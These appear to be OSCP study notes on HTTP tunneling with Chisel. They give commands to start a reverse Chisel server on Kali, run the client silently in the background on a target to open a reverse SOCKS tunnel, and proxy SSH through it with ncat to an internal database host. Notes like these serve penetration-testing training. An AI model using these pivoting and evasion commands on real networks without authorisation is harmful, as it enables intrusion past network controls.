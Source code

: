 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/10-port-redirection-and-tunneling/3-http-tunneling/"}
---
```


- Good for when only http is allowed
- Can't use SSH tunnel because of packet inspection
- Chisel creates a HTTP tunnel with SSH inside for encryption
- Chisel exists for all OSes and architectures which other tools like HTTPTunnel does not
- Chisel server listens on TCP port 1080 which is a SOCKS port

-----------
## Chisel HTTP Dynamic/Reverse Port Forwarding + SSH with SOCKS:
1. Get correct binary to target machine from https://github.com/jpillora/chisel/releases/
2. Start Chisel server on kali:
```
chisel server --port 8080 --reverse
```
3. Connect to server using Chisel client:
```
/tmp/chisel client 192.168.45.180:8080 R:socks > /dev/null 2>&1 &
```
4. Connect using SOCKS and win!
5. SSH with SOCKS using ncat:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
